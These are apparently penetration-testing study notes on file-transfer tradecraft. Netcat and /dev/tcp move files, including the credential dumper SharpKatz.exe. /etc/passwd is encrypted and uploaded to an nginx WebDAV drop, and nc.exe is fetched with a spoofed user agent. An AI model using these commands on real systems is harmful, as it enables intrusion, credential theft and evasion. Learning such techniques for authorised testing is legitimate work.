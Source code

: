 ## Netcat 
Target:
nc
```shell
nc -l -p 8000 > <filename>
```
Ncat
```shell
 ncat -l -p 8000 --recv-only > <filename>
```

Attacker:
nc
```shell
nc -q 0 <ip> 8000 < <filename>
```
ncat:
```shell
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

## Dev/TCP
```shell
 cat < /dev/tcp/<ip>/<port> > <filename>
```


## Protected File Transfers
Sensitive files can be obtained. 
#### File encryption
##### Windows 
```powershell
.EXAMPLE
Invoke-AESEncryption -Mode Encrypt -Key "p@ssw0rd" -Text "Secret Text" 

Description
-----------
Encrypts the string "Secret Test" and outputs a Base64 encoded ciphertext.
 
.EXAMPLE
Invoke-AESEncryption -Mode Decrypt -Key "p@ssw0rd" -Text "LtxcRelxrDLrDB9rBD6JrfX/czKjZ2CUJkrg++kAMfs="
 
Description
-----------
Decrypts the Base64 encoded string "LtxcRelxrDLrDB9rBD6JrfX/czKjZ2CUJkrg++kAMfs=" and outputs plain text.
 
.EXAMPLE
Invoke-AESEncryption -Mode Encrypt -Key "p@ssw0rd" -Path file.bin
 
Description
-----------
Encrypts the file "file.bin" and outputs an encrypted file "file.bin.aes"
 
.EXAMPLE
Invoke-AESEncryption -Mode Decrypt -Key "p@ssw0rd" -Path file.bin.aes
 
Description
-----------
Decrypts the file "file.bin.aes" and outputs an encrypted file "file.bin"
#>
function Invoke-AESEncryption {
    [CmdletBinding()]
    [OutputType([string])]
    Param
    (
        [Parameter(Mandatory = $true)]
        [ValidateSet('Encrypt', 'Decrypt')]
        [String]$Mode,

        [Parameter(Mandatory = $true)]
        [String]$Key,

        [Parameter(Mandatory = $true, ParameterSetName = "CryptText")]
        [String]$Text,

        [Parameter(Mandatory = $true, ParameterSetName = "CryptFile")]
        [String]$Path
    )

    Begin {
        $shaManaged = New-Object System.Security.Cryptography.SHA256Managed
        $aesManaged = New-Object System.Security.Cryptography.AesManaged
        $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
        $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::Zeros
        $aesManaged.BlockSize = 128
        $aesManaged.KeySize = 256
    }

    Process {
        $aesManaged.Key = $shaManaged.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($Key))

        switch ($Mode) {
            'Encrypt' {
                if ($Text) {$plainBytes = [System.Text.Encoding]::UTF8.GetBytes($Text)}
                
                if ($Path) {
                    $File = Get-Item -Path $Path -ErrorAction SilentlyContinue
                    if (!$File.FullName) {
                        Write-Error -Message "File not found!"
                        break
                    }
                    $plainBytes = [System.IO.File]::ReadAllBytes($File.FullName)
                    $outPath = $File.FullName + ".aes"
                }

                $encryptor = $aesManaged.CreateEncryptor()
                $encryptedBytes = $encryptor.TransformFinalBlock($plainBytes, 0, $plainBytes.Length)
                $encryptedBytes = $aesManaged.IV + $encryptedBytes
                $aesManaged.Dispose()

                if ($Text) {return [System.Convert]::ToBase64String($encryptedBytes)}
                
                if ($Path) {
                    [System.IO.File]::WriteAllBytes($outPath, $encryptedBytes)
                    (Get-Item $outPath).LastWriteTime = $File.LastWriteTime
                    return "File encrypted to $outPath"
                }
            }

            'Decrypt' {
                if ($Text) {$cipherBytes = [System.Convert]::FromBase64String($Text)}
                
                if ($Path) {
                    $File = Get-Item -Path $Path -ErrorAction SilentlyContinue
                    if (!$File.FullName) {
                        Write-Error -Message "File not found!"
                        break
                    }
                    $cipherBytes = [System.IO.File]::ReadAllBytes($File.FullName)
                    $outPath = $File.FullName -replace ".aes"
                }

                $aesManaged.IV = $cipherBytes[0..15]
                $decryptor = $aesManaged.CreateDecryptor()
                $decryptedBytes = $decryptor.TransformFinalBlock($cipherBytes, 16, $cipherBytes.Length - 16)
                $aesManaged.Dispose()

                if ($Text) {return [System.Text.Encoding]::UTF8.GetString($decryptedBytes).Trim([char]0)}
                
                if ($Path) {
                    [System.IO.File]::WriteAllBytes($outPath, $decryptedBytes)
                    (Get-Item $outPath).LastWriteTime = $File.LastWriteTime
                    return "File decrypted to $outPath"
                }
            }
        }
    }

    End {
        $shaManaged.Dispose()
        $aesManaged.Dispose()
    }
}
```

##### Linux 
```shell
openssl enc -aes256 -iter 100000 -pbkdf2 -in /etc/passwd -out passwd.enc
```
```shell

openssl enc -d -aes256 -iter 100000 -pbkdf2 -in passwd.enc -out passwd                    
```
## Catching files over HTTP/s
Most common protocol to be allowed through firewalls.
File is often encrypted in transit.
### Nginx 
Create a directory to handle files.
```shell
sudo mkdir -p /var/www/uploads/SecretUploadDirectory
```
Change owner of www-data
```shell
 sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory
```
Create a file called upload.conf:
`/etc/nginx/sites-available/upload.conf`
```notepad
server {
    listen 9001;
    
    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}
```

Sym link site to the sites enabled directory 
```shell
sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/
```
start nginx
```shell
 sudo systemctl restart nginx.service
```

Verify errors
```shell
tail -2 `/var/log/nginx/error.log`
```

```shell
ss -lnpt | grep `80`
```

```shell
ps -ef | grep `2811`
```
Remove Default config?
```shell
sudo rm /etc/nginx/sites-enabled/default
```

Upload Files using cURL 
```shell
curl -T /etc/passwd http://localhost:9001/SecretUploadDirectory/users.txt
```

# Living of the land 
[Windows](https://lolbas-project.github.io/#)
[Linux](https://gtfobins.github.io/)


# Changing user agent
```powershell
$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
```
```powershell
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```


